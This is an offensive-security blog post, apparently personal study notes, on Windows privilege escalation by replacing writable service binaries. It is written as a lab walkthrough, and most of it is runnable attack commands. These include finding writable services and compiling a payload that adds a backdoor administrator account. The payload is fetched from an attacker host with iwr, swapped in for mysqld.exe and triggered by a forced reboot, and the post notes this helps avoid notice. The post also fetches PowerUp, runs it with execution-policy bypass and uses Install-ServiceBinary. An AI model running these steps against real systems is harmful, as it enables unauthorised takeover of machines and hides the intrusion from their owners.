 ```yaml
---
layout: post
title: Windows Service Binary Hijacking
titledate: 09/15/23
tags: ["infosec","offsec", "privesc", "powershell", "exploit", "powerup"]
---
```


#### hijacking binary services

in some instances software services may be tied to binaries that are given open permisions - if the user has the ability to read and write then we can replace the binary with our own and restart the service or computer to allow it to execute in the context of the system user

### NOTE: when using a network logon like - WinRM or a bind shell these commands Get-CimInstance and Get-Service will not have permissions if the user does not have admin privs but RDP can get around this

to list the services with their corresponding path - if rdp to target

    PS > Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

the result of this comman displays a couple services that are located in a non Windows system directory like \Xampp - this means that the developer would be responsible for managing the permissions of the binary application for the running service and they would be worth inspecting

to check permissions we can use icacls and Get-ACL

    $ icacls "C:\xampp\apache\bin\httpd.exe"

    user (RX)

    $ icacls "C:\xampp\mysql\bin\mysqld.exe"

    user (F)

the rx means the user can read and execute but we cannot write so we are unable to overwrite or replace the binary with ours - the F means we have full access to the binary

for this example we will create compile an executable that adds a user with the following commands

    i = system ("net user user2 password123! /add");
    i = system ("net localgroup administrators user2 /add");

### of course running as system we can do many things like edit existing users passwords to access their system

since we have access to the target machine we will copy the binary over

    PS > iwr -uri http://192.168.1.1/adduser.exe -Outfile adduser.exe

we backup the original service just in case we want to restore operation and go unnoticed

    PS > move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

and then copy our binary over

    PS > move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

finally we need to restart the service which can be achieved several ways if priveleges permit - but if we are running as a regular user /no sys then restart is our best bet

    PS > net stop mysql

    PS > Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

this cmd will tell us if the service has auto startup enabled

if this is the case we can reboot the machine if allowed

    PS > shutdown /r /t 0

once rebooted the malicious service should be running and we can check to see if our code has been executed

    PS > Get-LocalGroupMember administrators

#### PowerUp service hijacking

    $ cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .

now let's use a powershell script to see if it can detect these binaries that can be replaced

    $ python3 -m http.server 80

    PS > iwr -uri http://192.168.1.1/PowerUp.ps1 -Outfile PowerUp.ps1

copying the script over

    PS > powershell -ep bypass

ep bypsass to execute the script

    PS > . .\PowerUp.ps1

    PS > Get-ModifiableServiceFile

this will identify writeable services - then we can even attempt to overwrite them with PowerUp

    PS > Install-ServiceBinary -Name 'mysql'

may need to stop service before executing Install-ServiceBinary - net stop service

### NOTE: this functionality of the script may fail so should be verified manually

